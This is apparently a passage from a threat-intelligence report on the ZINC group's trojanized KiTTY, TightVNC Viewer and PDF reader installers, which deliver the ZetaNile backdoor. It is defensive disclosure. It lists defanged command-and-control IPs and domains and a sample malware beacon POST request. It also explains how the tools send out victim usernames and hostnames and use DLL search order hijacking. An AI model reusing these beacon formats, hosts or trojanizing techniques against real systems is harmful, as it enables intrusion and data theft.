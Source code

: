 While ZINC has utilized weaponized PuTTY for many years, ZINC has only recently expanded their capabilities to include weaponizing a fork of PuTTY called KiTTY. The executable first collects the username and hostname of the victim system. It then sends that information to a hardcoded IP 172[.]93[.]201[.]253 over TCP/22, which does not use SSH protocol and does not require SSH handshake to establish communication. Upon successful TCP connection to the server at 137[.]184[.]15[.]189, the malicious KiTTY executable then deploys the malware as %AppData%\mscoree.dll following multiple rounds of decoding. The mscoree.dll file is the embedded payload, detected as EventHorizon, in the ZetaNile malware family. Similar to ZINC’s version of PuTTY, the actor uses DLL search order hijacking to load malicious DLL files that perform tasks within the context of these legitimate Windows processes, specifically through %AppData%KiTTY%PresentationHost.exe -EmbeddingObject.
Figure 4. KiTTY – DLL search order hijacking
The mscoree.dll malware is modularized in such a way that, upon successful connection to the compromised C2 domain, the attackers can install additional malware on the target system as needed using the existing C2 communication, such as executing C:\ProgramData\Cisco\fixmapi.exe -s AudioEndpointBuilder to load malicious mapistub.dll from the compromised C2 server. The HTTP POST requests contain the hardcoded user agent string with misspelled “Edge”, as detailed below, and contain a unique ID for the field gametype and the hardcoded value for the field type for malware campaign tracking purposes:
POST /wp-includes/php-compat/compat.php HTTP/1.1 Accept: text/* User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36 Edg/100.0.1185.39 Content-Type: application/x-www-form-urlencoded Content-Length: 39 Host: olidhealth[.]com Connection: Keep-Alive Cache-Control: no-cache   gametype=[UniqueId]&type=O8Akm8aV09Nw412KoWJds  
Weaponized TightVNC Viewer
Beginning in September 2022, ZINC was observed utilizing a trojanized TightVNC Viewer that was delivered to a target alongside a weaponized SSH utility over WhatsApp. This malware has a unique PDBPath:
N:\2.MyDevelopment\3.Tools_Development\4.TightVNCCustomize\Munna_Customize\tightvnc\x64\\Release\tvnviewer.pdb
The weaponized versions of TightVNC Viewer often were delivered as compressed ZIP archives or job description-themed ISO files via online platforms such as WhatsApp. Within that archive, the recipient is provided a ReadMe.txt and an executable file to run. The .txt file has the following content:
Platform: 2nd from the list
User: [redacted]
Pass: [redacted]
As part of the threat actor’s latest malware technique to evade traditional defenses, the malicious TightVNC Viewer has a pre-populated list of remote hosts, and it’s configured to install the backdoor only when the user selects ec2-aet-tech.w-ada[.]amazonaws from the drop-down menu in the TightVNC Viewer, as shown in Figure 5:
Figure 5. Weaponized TightVNC Viewer – user interface
The malware was configured to send the username and hostname to IP 44[.]238[.]74[.]84 on TCP/22 as part of the victim check-in with the C2 and establish VNC connections to the same IP on port TCP/5900. Once a successful connection is established to the server IP, the embedded second stage DLL payload from TightVNC.exe is loaded in memory to establish C2 communication to a known compromised domain.
Weaponization of Sumatra PDF reader and muPDF/Subliminal Recording installer
ZINC has operationalized malicious versions of two PDF readers, Sumatra PDF and muPDF/Subliminal Recording installer, that act as the entry vector for the ZetaNile implant. This delivery mechanism is often utilized in relation to fraudulent job postings delivered to job-seeking targets in the IT and defense sector. The weaponized versions were often delivered as compressed ZIP archives. Within that archive, the recipient is provided with an executable file to run. While the malicious Sumatra PDF reader is a fully functional PDF reader that can load the malicious implant from a fake PDF, the muPDF/Subliminal Recording installer can set up the backdoor without loading any malicious PDF files.
Trojanized Sumatra PDF Reader
The trojanized version of Sumatra PDF Reader named SecurePDF.exe has been utilized by ZINC since at least 2019 and remains a unique ZINC tradecraft. SecurePDF.exe is a modularized loader that can install the ZetaNile implant by loading a weaponized job application themed file with a .PDF extension. The fake PDF contains a header “SPV005”, a decryption key, encrypted second stage implant payload, and encrypted decoy PDF, which is rendered in the Sumatra PDF Reader when the file is opened.
Once loaded in memory, the second stage malware is configured to send the victim’s system hostname and device information using custom encoding algorithms to a C2 communication server as part of the C2 check-in process. The attackers can install additional malware onto the compromised devices using the C2 communication as needed.
Figure 6. SecurePDF interface
Trojanized muPDF/Subliminal Recording installer
